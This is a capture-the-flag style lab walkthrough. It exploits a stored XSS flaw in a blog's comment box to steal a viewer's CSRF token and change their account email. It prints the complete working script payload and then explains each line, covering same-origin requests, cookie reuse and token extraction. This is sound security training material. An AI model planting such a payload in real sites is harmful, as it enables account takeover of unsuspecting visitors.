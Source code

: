 This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to steal a CSRF token, which you can then use to change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`  
<br/>**1- Notice there is a CSRF token and a parameter email when changing the email in your account**  
![000ec79bc6c02c8c9fb58e52b6fb7eb2.png](../_resources/000ec79bc6c02c8c9fb58e52b6fb7eb2.png)  
<br/>**2- We are going to leave our stored XSS payload in the comment box**  
![fec93809cad5c33ee6e941d150685a7b.png](../_resources/fec93809cad5c33ee6e941d150685a7b.png)  
<br/>**3- This is the payload, with it we are going to steal the csrf token from other user that visits the page**  
<br/>`<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>`  
<br/>**4- What the payload does:**  
<br/>Here’s what that payload is doing, line by line, and why it works in the Burp lab.

`<script>var req = new XMLHttpRequest();req.onload = handleResponse;req.open('get','/my-account',true);req.send();`

- A **stored XSS** executes this JS in the victim’s browser.
    
- It creates an XHR (`req`) to **GET `/my-account`** (same origin as the blog).
    
- Because it’s same-origin, the browser **automatically sends the victim’s cookies** (session, etc.) and **lets the script read the HTML response**.
    
- `onload` calls `handleResponse` after the page returns.
    

  
<br/>

`function handleResponse() {`  
    `    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];`  
`this.responseText is the full HTML of /my-account.`

It uses a regex to find a CSRF token sitting in a hidden input:

- name="csrf" value="(\\w+)" captures the token into group 1.

&nbsp;\\w+ matches letters/digits/underscore; works for many tokens (e.g., hex). If the token contained - or = etc., this would fail.  
<br/><br/>`var changeReq = new XMLHttpRequest();`  
    `    changeReq.open('post', '/my-account/change-email', true);`  
    `    changeReq.send('csrf='+token+'&email=test@test.com')`  
`};`  
`</script>`  
With the token in hand, it builds a second request that performs a state-changing action (change email).

- It replays the CSRF token in the POST body so server-side CSRF defenses pass.
- Cookies again go automatically, so the action is done as the victim.

&nbsp;